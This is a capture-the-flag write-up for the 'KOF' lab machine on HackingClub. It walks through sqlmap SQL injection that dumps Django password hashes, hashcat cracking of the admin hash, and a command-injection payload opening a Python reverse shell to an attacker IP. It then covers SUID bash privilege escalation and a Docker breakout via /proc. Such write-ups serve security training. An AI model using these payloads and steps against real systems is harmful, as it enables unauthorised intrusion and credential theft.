

[HackingClub] KOF Writeup
| Platform: | HackingClub |
| Machine: | KOF |
| Category: | Web Exploitation |
| OS: | Linux (Docker) |
| Difficulty: | Easy |
## Recon
In the beginning, I used NMAP with the following parameters. I found only ports 22 and 8000 open (it seems to be a Django application running on Linux).
sudo nmap 172.16.11.225 -Pn -sSVC -T5
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
8000/tcp open http-alt WSGIServer/0.2 CPython/3.9.19
|_http-server-header: WSGIServer/0.2 CPython/3.9.19
|_http-title: KOF 2002 Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelI performed fuzzing on the Django application using Feroxbuster and discovered three directories: register, panel, and dashboard.
feroxbuster -u http://172.16.11.225:8000/
found:5 errors:0
http://172.16.11.225:8000/
http://172.16.11.225:8000/register/
http://172.16.11.225:8000/panel/
http://172.16.11.225:8000/dashboard/Upon accessing the page, the most prominent feature is a search field that passes the q parameter via GET and displays the searched team.
When testing this endpoint with SQLMap, it was identified that the database uses SQLite and that the parameter is vulnerable to SQL injection (SQLi).
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --risk 3 --level## Exploitation
We can include the --dbms sqlite flag to specify that the database in use is SQLite.
To enumerate the database tables, we use the --tables option:
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --tables --threads 10
[12 tables]
+----------------------------+
| auth_group |
| auth_group_permissions |
| auth_permission |
| auth_user |
| auth_user_groups |
| auth_user_user_permissions |
| authentication_teams |
| django_admin_log |
| django_content_type |
| django_migrations |
| django_session |
| sqlite_sequence |
+----------------------------+From the auth_user table, we want to extract the username, password, is_staff, and is_superuser columns:
$ python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user -C username,password,is_staff,is_superuser --dump
Table: auth_user
[3 entries]
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| username | password | is_staff | is_superuser |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| lucas | pbkdf2_sha256$600000$uK8mOpGqJgz6n8NpSq6sW4$teEmzYbauC23hUiCWchvGVcOxbPkNOIEq4yZ3ZCc2vw= | 0 | 0 |
| sitara | pbkdf2_sha256$600000$hgmRaAKIjaJXPw15HJtGzM$rcr8QB224t9Rf8e1AKpyfimvWLTJl1r+ZCGTtvKI8X4= | 0 | 0 |
| vanessa | pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ= | 1 | 1 |
+----------+------------------------------------------------------------------------------------------+----------+--------------+The user "vanessa" is likely the admin. We can use Hashcat to crack the hash (PBKDF2-SHA256 from Django):
hashcat -m 10000 hash /usr/share/seclists/Passwords/rockyou.txt
pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ=:princess1Therefore, the admin password for "vanessa" is princess1. Upon accessing the /panel endpoint with admin creds:
By clicking to generate an IP and then on "Test Connection," we can analyze the request. A POST request is made to the backend with the CSRF, game, vpn, and test_connection parameters.
If we place a local IP in the test_connection parameter, it responds that the connection was successful.
We can try to establish a reverse connection by injecting a ; (since it could be executed in bash) and using Python. Payload:
;export RHOST="10.0.10.235";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';## Post exploitation
At first glance, using ps aux, I identified that we are in a Docker environment. I couldn't find the first flag, meaning the first objective is to escalate to root, and the second is to perform a Docker escape.
After running linpeas on the server, I found that /usr/bin/bash may be exploitable (it has the SUID bit set):
═╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts
-rwsr-xr-x 1 root root 1.3M Apr 23 2023 /usr/bin/bash
═╣ /proc mounted? ................. Yescp /bin/bash /tmp/
# You need to copy it from the host as the bash binaries might be different
chown root:root bash
chmod 4777 bash
bash -pBy exploiting this, we will escalate privileges to root in order to retrieve the first flag in /root.
## Docker escape/breakout
To perform the Docker breakout/escape, I will use the /proc endpoint. First, I need to retrieve the Docker process ID by running ps aux | grep docker.
With this, we can access the Docker process directory, navigate to the root directory, and then escape to the root directory of the host machine running the Docker container. So cd /proc/2741/root/.
Here are the two flags: one for the default root user after privilege escalation (flag.txt), and the other for the Docker breakout (root.txt).
Disclaimer: Docker breakout can be achieved in other ways, such as using Process Injection.